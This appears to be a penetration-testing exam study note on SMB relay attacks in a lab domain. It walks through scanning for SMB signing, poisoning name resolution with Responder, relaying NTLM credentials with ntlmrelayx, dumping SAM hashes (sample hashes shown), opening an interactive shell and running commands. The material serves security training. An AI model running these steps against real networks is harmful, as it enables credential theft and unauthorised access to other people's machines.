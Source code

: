 ```yaml
---

---
```


# 🛡️ SMB Relay Attack

---

## 📋 Summary

**SMB Relay Attacks** exploit NTLM hash captures (e.g., through Responder) to relay credentials to other machines without cracking them. This attack is feasible if **SMB signing** is disabled or not enforced on the target machine. **SMB (Server Message Block)** is primarily used for **file sharing** but also facilitates remote command execution. Captured credentials (e.g., from **Punisher**) are relayed to another machine (e.g., **Spiderman**) using **ntlmrelayx**.

### 📝 Key Points

- **SMB signing** must be **disabled or not enforced** on the target machine.
- Captured credentials need **admin privileges** on the target to execute commands.
- The attack involves:
    1. Identifying vulnerable machines.
    2. Modifying Responder to capture hashes.
    3. Using `ntlmrelayx` to relay credentials to the target.

---

## 📚 Detailed Notes

### 1. **Requirements**

- **SMB signing** must be **disabled/not enforced** on the target.
- The captured credentials must have **admin privileges** on the target machine.

💡 **Tip**: Workstations often have SMB signing disabled, while servers usually have it enabled.

---

### 2. **Identify Hosts Without SMB Signing**

- **Nmap Command**:**Output**:
    
    ```bash
    nmap --script=smb2-security-mode.nse -p445 192.168.164.139 -Pn
    
    ```
    
    ```
    Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-09-28 14:03 EDT
    Nmap scan report for 192.168.164.139
    Host is up (0.0010s latency).
    
    PORT    STATE SERVICE
    445/tcp open  microsoft-ds
    
    Host script results:
    | smb2-security-mode:
    |   3:1:1:
    |_    Message signing enabled but not required
    
    ```
    
    - **Significance**: The line **"Message signing enabled but not required"** indicates that the target is vulnerable to SMB relay attacks, as it does not enforce SMB signing.

---

### 3. **Modify Responder Configuration**

- Edit the Responder config file:
    
    ```bash
    sudo mousepad /etc/responder/Responder.conf
    
    ```
    
- Disable **SMB** and **HTTP** services to enable hash relaying instead of just capturing.

---

### 4. **Run Responder**

- Start Responder on the attacking machine:
    
    ```bash
    sudo responder -I tun0 -wPv
    
    ```
    
- Ensure **LLMNR** and **NBT-NS** poisoners are ON, while **SMB** and **HTTP** servers are OFF.

---

### 5. **Set Up SMB Relay with ntlmrelayx**

- Create a file (`targets.txt`) containing the IP addresses of machines with SMB signing disabled:
    
    ```bash
    cat targets.txt
    192.168.164.139
    192.168.164.140
    
    ```
    
- Run `ntlmrelayx` to relay captured hashes:
    
    ```bash
    sudo ntlmrelayx.py -tf targets.txt -smb2support
    
    ```
    

---

### 6. **Significance of ntlmrelayx Output**

**Sample Output**:

```
[*] SMBD-Thread-3: Received connection from 192.168.164.139, attacking target smb://192.168.164.140
[*] Authenticating against smb://192.168.164.140 as MARVEL\\fcastle SUCCEED
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

- **Key Indicators**:
    - **Received connection**: Indicates a captured connection from the target machine (e.g., `192.168.164.139`).
    - **Authenticating against...SUCCEED**: Confirms that the credentials have been successfully relayed and authenticated on the target machine (`192.168.164.140`).
    - **Dumping local SAM hashes**: Shows successful extraction of **SAM hashes** from the target, which can be used for further exploitation (e.g., password cracking).

---

### 7. **Optional Interactive Shell**

- Run `ntlmrelayx` to get an interactive SMB shell:
    
    ```bash
    sudo ntlmrelayx.py -tf targets.txt -smb2support -i
    
    ```
    
- To bind to the shell:
    
    ```bash
    nc 127.0.0.1 11000
    
    ```
    

---

### 8. **Executing Commands**

- To execute a command on the target:
    
    ```bash
    sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
    
    ```
    

---

### 9. **Lab Example (Dumping SAM Hashes)**

- **Nmap Scan**:
    
    ```bash
    nmap --script=smb2-security-mode.nse -p445 192.168.164.140 -Pn
    
    ```
    
    - **Response**: "Message signing enabled but not required."
- **Run Responder**:
    
    ```bash
    sudo responder -I eth0 -dPv
    
    ```
    
- **Relay Hashes**:
    
    ```bash
    ntlmrelayx.py -tf targets.txt -smb2support
    
    ```
    
- **Dump SAM Hashes**:
    
    ```bash
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    
    ```
    

---

## 📖 Abbreviations & Definitions

- **SMB**: Server Message Block – A protocol for file sharing and remote access on Windows networks.
- **NTLM**: NT LAN Manager – A Microsoft suite of security protocols for authentication.
- **LLMNR**: Link-Local Multicast Name Resolution – Resolves hostnames in local networks.
- **NBT-NS**: NetBIOS Name Service – A legacy method for name resolution.
- **SAM**: Security Account Manager – A Windows database that stores user credentials.
- **Relay**: Passing captured credentials to another target for authentication.

---

## 🚨 Critical Mentions & Exam Traps

- 🚨 **SMB Signing Check**: Always confirm if SMB signing is disabled or not enforced on the target. If **enabled and required**, the relay attack **won't work**.
- 🚨 **No Self-Relay**: You **cannot relay credentials** back to the originating machine.
- 💡 **Important Commands**:
    - `nmap --script=smb2-security-mode.nse -p445 -Pn`
    - `ntlmrelayx.py -tf targets.txt -smb2support`
- 📝 **Key Output**:
    - Look for **"Authenticating...SUCCEED"** in `ntlmrelayx` output, indicating a successful relay.
    - **Dumping SAM hashes**: Shows that you have compromised the target.
- 📝 **Subtle Details**:
    - Disable **SMB** and **HTTP** in Responder for a successful relay.
    - Use the **interactive shell (-i)** in `ntlmrelayx` for direct access to the target.

---

## 🧠 Tips for Exam Success

- **Create a target file** (`targets.txt`) listing vulnerable machines.
- Always **monitor Responder output** to identify when hashes are captured.
- Confirm **SMB signing status** using Nmap before proceeding with the attack.

---
